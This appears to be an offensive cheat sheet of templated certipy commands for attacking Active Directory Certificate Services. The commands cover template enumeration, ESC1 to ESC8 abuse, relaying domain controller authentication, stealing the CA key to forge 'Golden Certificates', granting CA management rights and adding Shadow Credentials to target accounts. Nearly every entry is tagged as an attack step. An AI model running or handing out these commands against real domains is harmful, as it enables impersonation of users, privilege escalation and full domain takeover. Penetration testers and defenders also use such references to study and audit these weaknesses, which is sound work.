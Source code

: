 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - list certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy find <domain>/<user>:'<password>'@<dc-ip> 
```

## certipy - request certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -template <template> -ca <certificate-authority>
```

## certipy - request previously issued certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -retrieve <csr-id> -ca <certificate-authority>
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file>
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca <domain>/<user>:'<password>'@<ca-ip> -backup
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -alt <targeted-user>
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -template <template> -ca <certificate-authority> -alt <targeted-user>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template <domain>/<user>:'<password>'@<ca-ip> -template <template> -save-old
```

## certipy - give Manage Certificates access right to user
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca <domain>/<user>:'<password>'@<ca-ip> -ca <certificate-authority> -add-officer <targeted-user>
```

## certipy - give Manage CA access right to user
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca <domain>/<user>:'<password>'@<ca-ip> -ca <certificate-authority> -add-manager <targeted-user>
```

## certipy - Enable specific template
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca <domain>/<user>:'<password>'@<ca-ip> -ca <certificate-authority> -enable-template <template>
```

## certipy - Issue CSR for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca <domain>/<user>:'<password>'@<ca-ip> -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-ip>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-ip> -template 'DomainController'
```

## certipy - Add Key Credential to a target - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
```
certipy shadow add <domain>/<user>:'<password>'@<dc-ip> -account <targeted-user>
```

## certipy - List Key Credentials for a target - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
```
certipy shadow list <domain>/<user>:'<password>'@<dc-ip> -account <targeted-user>
```

## certipy - Show information about a specific Key Credential for a target - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
```
certipy shadow info <domain>/<user>:'<password>'@<dc-ip> -account <targeted-user> -device-id <device-uuid>
```

## certipy - Remove a specific Key Credential for a target - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
```
certipy shadow remove <domain>/<user>:'<password>'@<dc-ip> -account <targeted-user> -device-id <device-uuid>
```

## certipy - Remove all of the Key Credentials for a target - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
```
certipy shadow remove <domain>/<user>:'<password>'@<dc-ip> -account <targeted-user>
```